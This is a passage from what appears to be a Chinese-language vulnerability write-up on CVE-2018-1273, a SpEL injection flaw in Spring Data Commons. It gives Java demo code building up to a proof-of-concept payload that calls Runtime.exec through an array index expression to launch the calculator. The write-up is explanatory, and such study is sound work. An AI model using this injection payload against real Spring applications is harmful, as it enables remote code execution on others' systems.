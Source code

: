   ```java
    public void supportArray(){
        SpelExpressionParser parser=new SpelExpressionParser(new SpelParserConfiguration(false, true));
        //T(java.lang.Math.abs(0)) 会返回0
        Expression exp = parser.parseExpression("list[0]='list value'");
        MockClass mockClass=new MockClass();
        exp.getValue(mockClass);
        System.out.println(mockClass.list[0]);//list value

    }

    /**
     * 数组的下标也是可以利用表达式求得
     * 注释:这里就是恶意代码能执行的关键
     * */
    public void supportCustomIndex(){
        SpelExpressionParser parser=new SpelExpressionParser(new SpelParserConfiguration(false, true));
        Expression exp = parser.parseExpression("list[T(java.lang.Math).abs(0)]='index is 0'");
        MockClass mockClass=new MockClass();
        exp.getValue(mockClass);
        System.out.println(mockClass.list[0]);//index is 0
    }

    /*
    * 也可以获取一个数组属性的指定下标的值
    * 这里就是上述漏洞利用的地方
    * */
    public void supportCustomProperty(){
        SpelExpressionParser parser=new SpelExpressionParser(new SpelParserConfiguration(false, true));
        //获取目标对象list属性中下标为1的值
        Expression exp = parser.parseExpression("list[T(java.lang.Math).abs(1)]");
        MockClass mockClass=new MockClass();
        System.out.println(exp.getValue(mockClass));// 输出 1,
    }

    /**
     * 执行我们的代码，拉起计算器
     * */
    public void runPlayLoad(){
        SpelExpressionParser parser=new SpelExpressionParser(new SpelParserConfiguration(false, true));
        //获取目标对象list属性中下标为1的值
        Expression exp = parser.parseExpression("list[[T(java.lang.Runtime).getRuntime().exec(\"calc\")]]");
        MockClass mockClass=new MockClass();
        System.out.println(exp.getValue(mockClass));// 输出 1,
    }

    class MockClass{
        //只有声明为public才能被赋值
        public String name;
        public String[] list=new String[]{"0","1"};
    }
  }
  ```

  以上就是此次CVE-2018-1273的详细细节，希望对你有帮助

* ## 引用
  [CVE-2018-1273 RCE with Spring Data Commons 分析报告](http://xxlegend.com/2018/04/12/CVE-2018-1273-%20RCE%20with%20Spring%20Data%20Commons%20%E5%88%86%E6%9E%90%E6%8A%A5%E5%91%8A/)